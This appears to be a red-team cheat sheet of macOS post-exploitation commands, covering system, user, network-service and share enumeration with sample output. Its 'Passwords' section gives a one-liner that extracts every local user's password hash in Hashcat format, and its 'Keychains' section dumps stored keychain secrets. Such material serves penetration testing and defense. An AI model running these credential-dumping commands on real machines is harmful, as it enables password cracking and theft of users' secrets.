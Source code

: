 # Mac OSX TTPs

## Enumeration

### Gathering System Information Using IOPlatformExpertDevice

The ioreg command allows interaction with the I/O Kit registry, and the -c flag specifies the class of devices to list. The IOPlatformExpertDevice class provides information about the platform expert, which includes various system attributes. The -d flag specifies the depth of the search within the device tree.

```sh
ioreg -c IOPlatformExpertDevice -d 2
```

### Exploring Application Bundles

Applications on macOS are stored in the /Applications directory. Each application is bundled as a .app file, which is actually a directory with a specific layout. Key components of an application bundle include:

  1. Info.plist: This file contains application-specific configuration, entitlements, tasks, and metadata.

  2. MacOS: This directory contains the Mach-O executable.

  3. Resources: This directory includes icons, fonts, and images used by the application.

```sh
# List Applications
ls /Applications

cd /Applications/Lens.app
ls -R
```

### Basic System Enumeration

Versions:

```sh
❯ sw_vers
ProductName:		macOS
ProductVersion:		14.5
BuildVersion:		23F79
```

A basic script for gathering system information using `osascript`:

```scpt
-- System Information
set systemInfo to do shell script "system_profiler SPSoftwareDataType"
set hardwareInfo to do shell script "system_profiler SPHardwareDataType"

-- Network Information
set networkInfo to do shell script "ifconfig"

-- Disk Usage
set diskUsage to do shell script "df -h"

-- Output Results
set result to "System Information:\n" & systemInfo & "\n\n"
set result to result & "Hardware Information:\n" & hardwareInfo & "\n\n"
set result to result & "Network Information:\n" & networkInfo & "\n\n"
set result to result & "Disk Usage:\n" & diskUsage

-- Display Results
result
```

```sh
osascript enumerate_mac.scpt
```

Environment Variables:

```sh
❯ printenv
LANG=en_US.UTF-8
PWD=/Users/rosesecurity
```

Home Folders:

```sh
❯ ls -ma ~/
.!48082!pack-8ad6a5dc9b062d5e0e8d0bd9fa08146698e612e9.rev, .!48110!index, .., .CFUserTextEncoding, .DS_Store, .Trash, .aws,
.azure, .bash_history, .bashrc, .boto,
```

### Users

The three types of MacOS users are:

  - **Local Users** — Managed by the local OpenDirectory service, they aren’t connected in any way to the Active Directory

  - **Network Users** — Volatile Active Directory users who require a connection to the DC server to authenticate

  - **Mobile Users** — Active Directory users with a local backup for their credentials and files

```sh
# User and Group Enumeration

dscl . ls /Users
dscl . read /Users/[username]

dscl . ls /Groups
dscl . read /Groups/[group]

# Domain Enumeration
dsconfigad -show
```

### Last Login

This command reads the contents of the login window preferences plist file. This can potentially expose information such as:

1. Automatic login settings
2. Display of usernames and other login screen options
3. Shutdown and restart privileges
4. Login hooks (scripts that run at login)

```sh
❯ sudo defaults read /Library/Preferences/com.apple.loginwindow

Password:
{
    AccountInfo =     {
        FirstLogins =         {
            rosesec = 1;
        };
        MaximumUsers = 1;
        OnConsole =         {
        };
    };
    GuestEnabled = 0;
    Hide500Users = 1;
    OptimizerLastRunForBuild = 48630688;
    OptimizerLastRunForSystem = 235274496;
    RecentUsers =     (
        rosesec,
        "doctor.pepper"
    );
    UseVoiceOverLegacyMigrated = 1;
    lastLoginPanic = "746632045.290429";
    lastUser = loggedIn;
    lastUserName = rosie.odonnell;
}
```

### Passwords

The following one-liner which will dump credentials of all non-service accounts in Hashcat format `-m 7100` (`macOS PBKDF2-SHA512`):

```sh
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```

### Keychains

```sh
# List certificates
security dump-trust-settings [-s] [-d]

# List keychain databases
security list-keychains

# List smartcards
security list-smartcards

# List keychains entries
security dump-keychain | grep -A 5 "keychain" | grep -v "version"

# Dump all the keychain information, included secrets
security dump-keychain -d
```

> [!TIP]
> The last command will prompt the user for their password each entry, even if root. This is **extremely** noisy

### Network Services

```sh
rmMgmt=$(netstat -na | grep LISTEN | grep tcp46 | grep "*.3283" | wc -l);
scrShrng=$(netstat -na | grep LISTEN | egrep 'tcp4|tcp6' | grep "*.5900" | wc -l);
flShrng=$(netstat -na | grep LISTEN | egrep 'tcp4|tcp6' | egrep "\*.88|\*.445|\*.548" | wc -l);
rLgn=$(netstat -na | grep LISTEN | egrep 'tcp4|tcp6' | grep "*.22" | wc -l);
rAE=$(netstat -na | grep LISTEN | egrep 'tcp4|tcp6' | grep "*.3031" | wc -l);
bmM=$(netstat -na | grep LISTEN | egrep 'tcp4|tcp6' | grep "*.4488" | wc -l);
printf "\nThe following services are OFF if '0', or ON otherwise:\nScreen Sharing: %s\nFile Sharing: %s\nRemote Login: %s\nRemote Mgmt: %s\nRemote Apple Events: %s\nBack to My Mac: %s\n\n" "$scrShrng" "$flShrng" "$rLgn" "$rmMgmt" "$rAE" "$bmM";
```

### SMB Shares

```sh
# SMB share enumeration
smbutil view -G //servername.domain
sharing -l
smbutil statshares -a
```

### AFP Shares

```sh
# AFP share enumeration
dns-sd -B _afpovertcp._tcp
nmap -p 548 --script afp-showmount --script-args afp.username=yourusername,afp.password=yourpassword yourserveraddress
sudo sharing -l
```

### SSH Scanning

Browse for all SSH services that are currently advertised on the local network

```sh
dns-sd -B _ssh._tcp
```

### System Profiler

It is an application created to gather detailed information about the Mac on which it is running.

```sh
system_profiler SPSoftwareDataType SPHardwareDataType

Software:

    System Software Overview:

      System Version: macOS 14.5 (23F79)
      Kernel Version: Darwin 23.5.0
      Boot Volume: Macintosh HD
      Boot Mode: Normal
      Computer Name: Salsa-Dancer.RoseSecurity
      User Name: RoseSecurity (rose)
      Secure Virtual Memory: Enabled
      System Integrity Protection: Enabled
      Time since boot: 10 days, 14 hours, 54 minutes

Hardware:

    Hardware Overview:

      Model Name: MacBook Pro
      Model Identifier: Mac14,9
      Model Number: Z17G002HTLL/A
      Chip: Apple M2 Pro
      Total Number of Cores: 10 (6 performance and 4 efficiency)
      Memory: 32 GB
      System Firmware Version: 10151.121.1
      OS Loader Version: 10151.121.1
      Serial Number (system): XXXXXXXX
      Hardware UUID: 0012DE66-XXXXXXXX
      Provisioning UDID: 00006020-XXXX
      Activation Lock Status: Disabled
```
